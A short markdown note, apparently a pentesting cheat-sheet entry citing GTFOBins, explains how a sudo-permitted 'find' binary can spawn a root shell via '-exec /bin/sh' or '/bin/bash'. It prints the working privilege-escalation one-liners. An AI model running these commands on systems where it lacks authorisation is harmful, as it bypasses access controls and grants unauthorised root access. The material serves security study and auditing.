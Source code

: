 # find to exec

If the `find` binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.
- The `-exec` flag is used with `find` to run some command on each matching file that is found.
- Since the process is running as root (from sudo ), that shell will also be running as root. Instead of `sh`, you can use `bash` as it offers better syntax and it is actually an improvement over `sh`.
```
sudo find . -exec /bin/sh \; -quit
# or
sudo find . -exec /bin/bash \; -quit
```

Soure: [GTFOBins](https://gtfobins.github.io/gtfobins/find/)
